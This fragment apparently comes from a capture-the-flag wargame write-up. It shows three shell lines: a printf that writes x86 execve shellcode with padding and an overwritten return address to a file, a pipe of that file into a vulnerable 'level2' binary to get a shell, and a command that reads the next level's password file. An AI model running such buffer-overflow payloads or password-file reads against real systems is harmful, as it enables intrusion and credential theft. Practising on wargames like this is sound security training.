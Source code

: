 `printf "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\x31\xc9\x31\xd2\xcd\x80nnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnn\x08\xa0\x04\x08\n" > /tmp/level2`
`cat /tmp/level2 - | ./level2`
`cat /home/user/level3/.pass`
